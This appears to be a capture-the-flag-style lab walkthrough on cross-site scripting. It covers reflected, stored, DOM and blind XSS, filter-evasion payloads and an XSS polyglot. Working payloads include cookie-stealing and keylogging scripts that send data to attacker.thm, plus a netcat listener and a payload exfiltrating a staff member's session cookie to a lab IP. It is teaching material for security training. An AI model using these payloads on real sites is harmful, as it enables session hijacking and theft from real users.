






## Task 1 - Room Brief
Cross-site Scripting (XSS) is classified  as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. This room covers the different types of XSS, how to create XSS payloads, and how to modify said payloads to evade filters.

## Task 2 - XSS Payloads
In XSS, the payload is the JavaScript code we wish to be executed on the target's computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do. The modification is the changes to the code we need to make for it to execute in the given scenario.

The following are some examples of XSS intentions:

### Proof of Concept
This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a web application. This is often done by causing an alert box to pop up on the page with a string of text.

```js
<script>alert('XSS');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the target machine. The below JavaScript takes the target's cookie, base64 encodes it to ensure successful transmission and then posts it to a website under the attacker's control to be logged. Once the attacker has the cookies, they can take over the target's session and log in as that user.

```js
<script>fetch('https://attacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### Key Logger
The below code acts as a key logger. It takes anything typed by the client and forwards it to a website under the attacker's control.

```js
<script>document.onkeypress = function(e) { fetch('https://attacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic
This payload is more specific than the above examples. This payload calls a particular network resource or a JavaScript function. For example, a JavaScript function for changing the user's email address called `user.changeEmail()`.

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```
## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Consider the following scenario where a website displays an error message when an incorrect input is entered. The content of the error message gets taken from the *error* parameter in the query string and is built directly into the page source.


If the application doesn't check the contents of the error parameter, an attacker can insert malicious code.


The attacker can send the link directly to the victim or embed it into an iframe on another website containing a JavaScript payload which would get executed whenever the victim visits the malicious website or clicks on the malicious link. This is illustrated graphically below.


Finding Reflected XSS vectors requires testing every possible point of entry. These typically include:

- Parameters in the URL Query String
- URL File Path
- HTTP Headers (though unlikely to be exploitable in practice)

## Task 4 - Stored XSS
In Stored XSS, the payload is stored on the web application (in a database for example) and then gets executed when other users visit the site or web page.

Let's consider the following scenario. Suppose there is a blog website that allows users to post comments. The developers did not implement any checks for whether the comments contain JavaScript or filter out any malicious code. If an attacker posts a comment containing JavaScript, this will be stored in the backend database, and every user who visits the page will have the JavaScript execute in their browser. This is illustrated graphically below.


In order to test for Stored XSS, we will need to test every possible point of entry where it seems data is stored and then displayed back in areas that other users have access to. A small example set of this could be:

- Comments section on a blog
- User profile information
- Website listing

Sometimes, developers thing limiting input values ont he client-side is good enough protection. Changing these values to something the web application wouldn't expect is a good source of discovering stored XSS.

## Task 5 - DOM Based XSS
Document Object Model (DOM) is a programming interface for HTML and XML documents. DOM represents the page so that programs can change the document structure, style, and content. A webpage is a document which can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below.


DOM based XSS occurs when JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

For example, suppose a website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently viewed section. If the contents of the hash aren't checked for malicious code, an attacker could inject JavaScript of their choosing onto the webpage.

Testing for DOM based XSS can be challenging and requires a degree of knowledge of JavaScript to read the source code. One would need to look for parts of hte code that access certain variables that an attacker can have control over (such as *window.location.x* parameter).

## Task 6 - Blind XSS
Blind XSS is similar to stored XSS in that the payload gets stored on the website for another user to view. However, in this case, the attacker cannot see the payload working. A simple example of blind XSS is as follows.

Suppose a website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal. Using specifically crafted payloads, the attacker's payload could make calls back to a web server under the attacker's control allowing them to hijack the staff member's session allowing access to the private portal.

When testing for blind XSS vulnerabilities, we need to ensure our payload has a call back (usually an HTTP request). This allows us as an attacker to know when the payload has been executed.

## Task 7 - Perfecting Your Payload
In this task, we will work through practical examples of XSS vulnerabilities. The aim for each level will be to execute the JavaScript alert function with the string *THM*:

```js
<script>alert('THM');</script>
```

### Level 1
We are presented with a form which asks us to enter our name. Once the name is entered, it is displayed on the web page.


Looking at the page source, we see that the name we entered is reflected in the code.


Let's enter our JavaScript POC.


If we look at the page source again, we can see that our JavaScript is reflected in the code.



### Level 2
We are once again asked to enter our name. This time, the name is being reflected in an input tag instead.



We can verify this by looking at the page source.


In this situation, we can't simply try our previous JavaScript payload because we can't run it from inside the input tag. We instead need to escape the input tag first so that the payload can run properly. We can do this by adding an additional `">` before our payload which would cause the interpreter to close the input tag's value parameter (due to the `"`)and then close the input tag itself (due to the `>`) before executing our payload. Our final payload would look like:

```js
"><script>alert('THM');</script>
```


Looking at the page source, we can see how our payload is able to escape the input field.


### Level 3
In this level, we are asked again to enter our name into a dialog box. This time, our name appears to be reflected inside an HTML textarea tag.


This is confirmed by looking at the page source.


We can escape the `<textarea>` tag by prepending a `</textarea>` tag in front of our payload. This would result in the interpreter closing the *textarea* tag before executing our payload. Our final payload looks like:

```js
</textarea><script>alert('THM');</script>
```


Looking at the page source, we can see how our payload is able to escape the *textarea* element.



### Level 4
Entering the name into the input form, we find that the our name is reflected in some JavaScript code.


This is confirmed by looking at the page source.


We can escape the existing JavaScript by using the following payload:

```js
';alert('THM');//
```
Here the `'` closes the field specifying the name. The `;` signifies the end of the current command. The `//` at the end makes anything that follows a comment rather than an executable code.


Looking at the page source, we can see how our payload escaped the existing JavaScript code.


### Level 5
In this level, entering our name into the input form results in our name being reflected in the code.


This is confirmed by looking at the page source.


However, if we try to enter the payload `<script>alert('THM');</script>` we find that the payload fails. This is because the web application appears to be running a filter that strips out any potential dangerous words. Note how the word `script` has been removed from the payload in the resultant code.


When a filter which removes words from a string is being employed, we can try the following helpful trick.

```js
<sscriptcript>alert('THM');</sscriptcript>
```
This works because most developers employ filters which compare the string to a known pattern (in our case the word *script*). As our script passes through the filter, the string characters matching the word *script* will get filtered and removed. The filter, however, does not go back and recheck the remaining string again. This results of our payload passing through the filter is `<script>alert('THM');</script>` which should get executed.


Looking at the page source, we can see how our payload was altered by the filter.


### Level 6
In this level, we are asked to enter an image path. Pressing enter and looking at the page source we can see that the image is reflected in code.




Trying to use our payload `"><script>alert('THM');</script>` to escape the input tag does not work. Looking at the page source, we can see why.



In the above image, we can see that the `< and >` characters get filtered out from our payload. This prevents us from escaping from the IMG tag. To get around this filter, we can take advantage of additional attributes of the IMG tag (such as the *onload* event).

The *onload* event executes the code of your choosing when the image specified in the *src* attribute is loaded onto the web page.

With this knowledge, we can modify our payload as follows:

```js
/images/cat.jpg" onload="alert('THM');
```


Looking at the page source, we can see how our payload escapes the IMG tag.


### Polyglots
An XSS polyglot is a string of text which can escape attributes , tags, and bypass filters all in one. Polyglots could have been used for each of the examples above. An XSS polyglot is presented below:

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
## Task 8 - Practical Example (Blind XSS)
In this task, we will be looking at an example for blind XSS vulnerability.

Let's start by creating a new account on the web application. Once the account is activated, navigate to the *Support Tickets* tab which is the feature we will be investigating for weaknesses.


Let's create a support ticket. Click on the newly created ticket and view the page source. Looking at the page source, we can see that our body text gets placed inside a *textarea* tag.


Let's try creating another ticket with a payload to escape the *textarea* tag. The payload is in the form: `</textarea>test`.

Opening the new ticket and viewing the page source, we find that we have successfully escaped the *textarea* tag.


Now let's expand on our previous payload and see if we run JavaScript and confirm that that the ticket creating feature is vulnerable to an XSS attack. Create a new ticket with the following payload:

```js
</textarea><script>alert('THM');</script>
```


We can expand the payload even further and increase the impact of the vulnerability. Since this feature creates a support ticket, we can be reasonably sure that a staff member will view this ticket. We can exploit this to extract sensitive information (such as session cookies) from the staff member's machine.

Let's craft a payload which will extract the staff member's session cookies and exfiltrate it to a server under our control. We need to begin off by starting a *Netcat* listener on our attack machine.

```console
nc -lvnp 9001
```
With the listener set up, let's modify our payload to meet our requirements above.

```js
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
Where:

- `</textarea>` tag closes the *textarea* field.
- `<script>` tag opens an area for us to write JavaScript code.
- `fetch()` command makes an HTTP request.
- `{URL_OR_IP}` is the attacker's IP.
- `?cookie=` is the query string that will contain the victim's cookies.
- `btoa()` command bas64 encodes the victim's cookies.
- `document.cookie` accesses the victim's cookies for the current session.
- `</script>` closes the JavaScript code block.

Creating a new support ticket with the following payload and waiting for a callback allows us to capture the support staff's session cookies: `</textarea><script>fetch('http://10.10.252.168:9001?cookie=' + btoa(document.cookie) );</script>`


Decoding the value of the `?cookie` query string gives us value of the staff-session cookie.


